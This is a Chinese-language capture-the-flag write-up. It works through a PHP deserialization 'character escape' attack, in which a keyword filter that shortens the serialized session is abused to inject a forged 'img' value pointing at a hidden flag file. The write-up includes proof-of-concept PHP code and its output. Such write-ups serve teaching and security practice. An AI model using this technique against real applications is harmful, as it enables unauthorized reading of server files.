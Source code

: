 需要通过字符逃逸把`";s:8:"function";s:1:"a`吞掉（23个字符，但是我们需要吞24个字符，因为后面这里面的1会变成两位数）

24 = flag * 6 = 4 * 6

```php
<?php

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


$_SESSION["user"] = 'flagflagflagflagflagflag';
$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"b";}';
$_SESSION['img'] = base64_encode('guest_img.png'); //随便给它赋个值 这不重要


echo serialize($_SESSION)."\n";

$serialize_info = filter(serialize($_SESSION));

echo $serialize_info;
```

```
a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:58:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"b";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}

a:3:{s:4:"user";s:24:"";s:8:"function";s:58:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"b";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

吞掉了24个字符，`";s:8:"function";s:58:"a`成为了user的值。分号后面的下一个元素是img，值是`ZDBnM19mMWFnLnBocA==`。然后后面我又构造了一个，因为元素数是3。最后被 } 截断，后面的东西被忽略



也就是说它认为过滤之后的字符串是：

```
a:3:{s:4:"user";s:24:"";s:8:"function";s:58:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"b";}
```

将其反序列化之后：

```
array(3) {
  ["user"]=>
  string(24) "";s:8:"function";s:58:"a"
  ["img"]=>
  string(20) "ZDBnM19mMWFnLnBocA=="
  ["a"]=>
  string(1) "b"
}
```
